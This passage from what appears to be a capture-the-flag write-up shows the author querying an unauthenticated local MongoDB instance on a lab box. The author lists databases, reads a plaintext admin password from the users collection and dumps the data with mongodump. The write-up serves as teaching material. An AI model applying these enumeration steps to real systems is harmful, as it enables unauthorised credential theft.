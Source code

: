     
    admin@nodeblog:~$ mongo
    MongoDB shell version v3.6.8
    connecting to: mongodb://127.0.0.1:27017
    Implicit session: session { "id" : UUID("6c8944d0-e1f8-4ccb-9613-a4bec8925cb1") }
    MongoDB server version: 3.6.8
    Server has startup warnings: 
    2022-01-10T21:09:16.064+0000 I CONTROL  [initandlisten] 
    2022-01-10T21:09:16.064+0000 I CONTROL  [initandlisten] ** WARNING: Access control is not enabled for the database.
    2022-01-10T21:09:16.064+0000 I CONTROL  [initandlisten] **          Read and write access to data and configuration is unrestricted.
    2022-01-10T21:09:16.064+0000 I CONTROL  [initandlisten] 
    > 
    

I can show the databases:

    
    
    > show dbs
    admin   0.000GB
    blog    0.000GB
    config  0.000GB
    local   0.000GB
    

All of those except for `blog` are [default dbs in
Mongo](https://www.mysoftkey.com/mongodb/3-default-database-in-mongodb/). I’ll
look at `blog`:

    
    
    > use blog
    switched to db blog
    > show collections
    articles
    users
    

Two collections, the `users` obviously of more interest as it could contain
auth information. In fact, it has the plaintext password for admin:

    
    
    > db.users.find()
    { "_id" : ObjectId("61b7380ae5814df6030d2373"), "createdAt" : ISODate("2021-12-13T12:09:46.009Z"), "username" : "admin", "password" : "IppsecSaysPleaseSubscribe", "__v" : 0 }
    

Another way to get to this same information would be with `mongodump`. From an
empty directory, I’ll run it:

    
    
    admin@nodeblog:/dev/shm$ mongodump 
    2022-01-11T00:41:49.300+0000    writing admin.system.version to 
    2022-01-11T00:41:49.301+0000    done dumping admin.system.version (1 document)
    2022-01-11T00:41:49.301+0000    writing blog.articles to 
    2022-01-11T00:41:49.301+0000    writing blog.users to 
    2022-01-11T00:41:49.301+0000    done dumping blog.articles (2 documents)
    2022-01-11T00:41:49.301+0000    done dumping blog.users (1 document)
    